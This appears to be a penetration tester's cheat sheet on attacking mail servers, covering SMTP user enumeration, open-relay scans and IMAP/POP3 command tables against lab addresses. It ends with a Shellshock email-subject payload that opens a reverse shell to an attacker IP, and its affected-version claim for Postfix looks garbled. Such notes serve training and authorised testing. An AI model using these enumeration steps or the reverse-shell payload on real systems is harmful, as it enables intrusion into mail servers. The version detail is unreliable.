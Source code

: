 ## SMTP Methodology

1. Can you login?  Check for emails!
2. Is it vulnerable to anything?
3. Enumerate users if needed

### Enumerate users

Manually:

```bash
telnet SERVER 25
VRFY USER1
# If user exists:  252 2.0.0 root
# If use doesn't exist:  550 5.1.1 <scooby>: Recipient address rejected: User unknown in local recipient table
```

Automatic:

With many smtp servers, there's a large delay on login that breaks most enumeration scripts.  You can try these, but only one dealt with that delay.

```bash
# Python script that deals with delay
/home/coyote/.local/bin/smtp-user-enum -U /usr/share/fern-wifi-cracker/extras/wordlists/common.txt 10.10.10.17 25 > smtp_enum.txt
# Check for matches
grep 252 smtp_enum.txt

# Pentestmonkey, delay breaks it
smtp-user-enum -M VRFY -U /usr/share/fern-wifi-cracker/extras/wordlists/common.txt -t 10.10.10.17

# nmap, delay breaks it
nmap -p25 --script smtp-enum-users.nse SERVER
```

### Mail Footprinting

```bash
sudo nmap 10.129.40.107 -sV -p110,143,993,995 -sC
```

### SMTP Commands:

Identify Server

```bash
EHLO DOMAIN.com
```

Send Mail

```bash
MAIL FROM:<coyote@admin.local>
RCPT TO:<root@admin.local> NOTIFY=success,failure
DATA
Subject: Test Subj
#<PRESS ENTER TWICE>
This is a test message
.
```

Connecting through Web Proxy

```bash
CONNECT 10.129.14.128:25 HTTP/1.0
```

Nmap scans

```bash
sudo nmap 10.129.14.128 -p25 --script smtp-open-relay -v
```

### IMAP Commands:

I think the number in front of the command is an identifier, so you can send multiple commands back to back if you increment that ID

| **Command**                     | **Description**                                              |
| ------------------------------- | ------------------------------------------------------------ |
| `1 LOGIN username password`     | User's login.                                                |
| `1 LIST "" *`                   | Lists all directories.                                       |
| `1 CREATE "INBOX"`              | Creates a mailbox with a specified name.                     |
| `1 DELETE "INBOX"`              | Deletes a mailbox.                                           |
| `1 RENAME "ToRead" "Important"` | Renames a mailbox.                                           |
| `1 LSUB "" *`                   | Returns a subset of names from the set of names that the User has declared as being `active` or `subscribed`. |
| `1 SELECT INBOX`                | Selects a mailbox so that messages in the mailbox can be accessed. |
| `1 UNSELECT INBOX`              | Exits the selected mailbox.                                  |
| `1 FETCH <ID> all`              | Retrieves data associated with a message in the mailbox (number is just the number of messages.  If 1 message, use 1). |
| `1 FETCH <ID> BODY[TEXT]`       | Retrieve the body of a message                               |
| `1 CLOSE`                       | Removes all messages with the `Deleted` flag set.            |
| `1 LOGOUT`                      | Closes the connection with the IMAP server.                  |

#### Connecting to IMAP

```bash
# Curl
curl -k 'imaps://10.129.14.128' --user user:p4ssw0rd 
# Use -v for verbose to see more info

# openssl
openssl s_client -connect 10.129.14.128:imaps

# 
```



### POP Commands:

| **Command**     | **Description**                                             |
| --------------- | ----------------------------------------------------------- |
| `USER username` | Identifies the user.                                        |
| `PASS password` | Authentication of the user using its password.              |
| `STAT`          | Requests the number of saved emails from the server.        |
| `LIST`          | Requests from the server the number and size of all emails. |
| `RETR id`       | Requests the server to deliver the requested email by ID.   |
| `DELE id`       | Requests the server to delete the requested email by ID.    |
| `CAPA`          | Requests the server to display the server capabilities.     |
| `RSET`          | Requests the server to reset the transmitted information.   |
| `QUIT`          | Closes the connection with the POP3 server.                 |

#### Connecting to POP3 over SSL

```bash
# openssl
openssl s_client -connect 10.129.14.128:pop3s

# 
```



Check mail Example

```bash
telnet 10.10.10.51 110
user USERNAME
pass PASSWORD
list # List messages
retr N	# View message N
dele N  # Delete message N
```

### Shellshock

Postfix versions 4.2.x < 4.2.48 are vulnerable to RCE (ShellShock).  You can use the script [here](https://www.exploit-db.com/exploits/34896) or just craft an email manually through Telnet:

```bash
# Include this in the subject line of the email:
Subject:() { :; };bash -i >& /dev/tcp/10.10.14.29/8000 0>&1
```

